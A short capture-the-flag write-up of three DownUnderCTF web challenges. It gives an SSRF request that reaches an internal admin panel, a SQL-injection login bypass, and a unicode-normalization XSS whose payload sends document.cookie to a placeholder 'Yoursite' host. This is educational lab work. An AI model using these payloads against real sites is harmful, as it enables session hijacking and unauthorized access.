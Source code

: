 Another week ended, another CTF event ended, I realized I was not making any process. Maybe, I need to review the way I learned.

Anyway, hope that I can do somthing.

# DownUnderCTF
Here are some easy challenges I did in this CTF
## Web challenge
### Inside Out
Open challenge and view source you can see route to Admin panel: "/admin"

Try to access to /admin, you will receive ```Only accessible from the local network```

Access /request?url=http://example.com/ you will see a local IP: 10.96.0.167

Finally: payload: https://web-inside-out-b3d9f3b9.chal-2021.duc.tf/request?url=http://10.96.0.167/admin

Flag: DUCTF{very_spooky_request}

### Cowboy World:
Type: SQL Injection 

Firstly, I try some sqli payload but it didn't work.

It's a challenge for beginner, so I don't think it has something too difficult. 

I try to access robots.txt you will receive some hint, you must do sql injection with username is `sadcowboy`

Payload: username=sadcowboy&password='+or+1--

Flag: DUCTF{haww_yeeee_downunderctf?}

### Chainreaction:
Type: Xss

Open the challenge, I found out that we can create account and login with this account.

Beside, we can see "For developers sign in and go to the portal this". Access it, we will see `/devchat`, and `/admin` for admin site. We are not allowed to access `/admin`. So try to open `/devchat` we will see a conversion between admin and staff

![](Images/img1.png)

![](Images/img2.png)

Take a look to conversion you can see that there is a vulnerability, characters are nomalized after cheking the bad charaters, and the admin said that the admin poral was still under developement, and they used static cookie. Oh maybe, we can use XSS to steal this admin's static cookie.

Use ```"＞＜𝒔cript＞alert(1)＜/𝒔cript＞```  (we can't use normal characters, because `script, <, >` and lots of character are filtered), I get successfully XSS:

![](Images/img3.png)

Generate payload to steal admin's cookie:
```
"＞＜img id="abcd" src="x"＞＜𝒔cript＞document.getElementById('abcd').src='Yoursite/?c='+document.cookie＜/𝒔cript＞
```
After `Update Information`, click `Report Error` and check you site, you will get admin cookie

![](Images/img4.png)

Access the admin site with admin cookie, you will get the flag:

![](Images/img5.png)

Flag: DUCTF{_un1c0de_bypass_x55_ftw!}



